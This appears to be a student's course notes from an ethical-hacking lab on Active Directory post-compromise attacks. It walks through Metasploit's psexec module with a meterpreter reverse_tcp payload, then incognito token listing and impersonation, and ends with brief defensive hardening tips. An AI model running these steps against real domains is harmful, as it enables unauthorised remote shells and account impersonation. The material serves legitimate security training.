





# 🛡️ Walkthrough

> **Course:** [Practical Ethical Hacking](../../README.md)  
> **Module:** [Attacking Active Directory: Post-Compromise Attacks ](./README.md)  
> **Navigation Path:** `Practical Ethical Hacking > Attacking Active Directory: Post-Compromise Attacks  > Walkthrough`

---

## 🎯 Executive Summary & Technical Objectives
This document details the practical methodology, tooling, exploitation chain, and defensive remediation for **Walkthrough** as conducted in the TCM Security lab environment.

---

## 🔬 Hands-On Walkthrough & Technical Evidence

Many tools can be used for impersonation, we will use the incognito this time
Start msfconsole
- msfconsoleuse 
- use exploit/windows/smb/psexeccheck for option
- show optionsSet payload to x64
- set payload windows/x64/meterpreter/reverse_tcpSet other componets like rhost lhost etc
run options again to check if everything okay
Run the exploit
- run
Following can do for proof of concept

*Figure: Lab Execution Screenshot / Proof of Exploit*

To start incognito 
- load incognitoUse help to check for more commands 
- helpTh last thing that will show up will be the incognito commands 

*Figure: Lab Execution Screenshot / Proof of Exploit*

to list user tokens
- list_tokens -uto list grp tokens
- list_tokens -g
To impersonate user 
- impersonate_token <domain>//<username>(Need 2 back slashes {/} for character escaping )

How to knw for sure that impersonation was successful
Use shell > whoami

*Figure: Lab Execution Screenshot / Proof of Exploit*

after exiting cam use rev2self to get bck to where you were

Can use this as a proof of concept as well

*Figure: Lab Execution Screenshot / Proof of Exploit*

*Figure: Lab Execution Screenshot / Proof of Exploit*

---

## 🛡️ Defensive Hardening & Detection Signatures
- **Monitoring & Auditing:** Enable granular auditing for process creation (Windows Event ID 4688 / Sysmon Event 1) and network connections (Sysmon Event 3).
- **Least Privilege:** Enforce strict principle of least privilege across user accounts and service configurations.
- **Continuous Validation:** Conduct routine vulnerability scanning and automated configuration reviews to identify drift.

---
[⬅ Back to Attacking Active Directory: Post-Compromise Attacks ](./README.md) • [🏠 Master Course Index](../README.md)
